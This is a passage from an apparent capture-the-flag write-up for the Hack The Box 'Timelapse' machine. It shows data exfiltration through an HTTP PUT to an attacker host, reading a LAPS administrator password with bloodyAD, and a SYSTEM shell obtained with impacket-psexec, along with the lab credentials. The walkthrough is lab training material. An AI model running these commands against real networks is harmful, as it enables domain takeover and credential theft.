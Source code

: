 #### Exfiltrate Bloodhound data using HTTP PUT request
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> Invoke-WebRequest -Uri http://10.10.14.161:8000/20250603190439_BloodHound.zip -Method Put -InFile 20250603190439_BloodHound.zip
```

#### Identify `ReadLAPSPassword` for `svc_deploy` user
![svc_deploy_ReadLAPSPassword](images/svc_deploy_ReadLAPSPassword.png)

#### Read plaintext LAPS password stored in `ms-Mcs-AdmPwd`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ bloodyAD --host timelapse.htb -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

distinguishedName: CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
ms-Mcs-AdmPwd: xB&9}-&P3Dk8N4!6P4[9v19X
ms-Mcs-AdmPwdExpirationTime: 133938246718560698
```

#### Gain access as `Administrator` user using `impacket-psexec`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ impacket-psexec Administrator:'xB&9}-&P3Dk8N4!6P4[9v19X'@timelapse.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on timelapse.htb.....
[*] Found writable share ADMIN$
[*] Uploading file FweTPiLj.exe
[*] Opening SVCManager on timelapse.htb.....
[*] Creating service vBMx on timelapse.htb.....
[*] Starting service vBMx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2686]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
